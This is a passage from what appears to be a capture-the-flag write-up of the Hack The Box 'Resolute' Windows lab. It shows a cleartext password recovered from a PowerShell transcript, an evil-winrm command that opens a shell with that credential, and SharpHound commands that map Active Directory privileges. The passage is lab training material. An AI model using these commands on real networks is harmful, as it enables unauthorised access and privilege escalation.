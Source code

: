 ```powershell
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
```

Looking through the txt file, It seemed that it is revealing password for user **ryan**: **Serv3r4Admin4cc123!**

![](https://i.imgur.com/rknuexL.png)


### Evil-Winrm
Now I have a shell connection as user **ryan**:

`sudo evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!`

![](https://i.imgur.com/X69qS2q.png)


## Privesc ryan to Administrator
### Bloodhound

Again uploaded and ran **SharpHound.exe**, downloaded the zip file and imported it into bloodhound:

```bash
upload SharpHound.exe
.\SharpHound.exe
download 20240318203422_BloodHound.zip
```

I can see that **ryan** is a member of **contractors** group:

![](https://i.imgur.com/ioGsSQf.png)



Checking on **OUTBOUND OBJECT CONTROL** for **contractors**, there was one:

![](https://i.imgur.com/uA66Lyd.png)



It seemed that **contractors** is a member of **DNSAdmins** group:
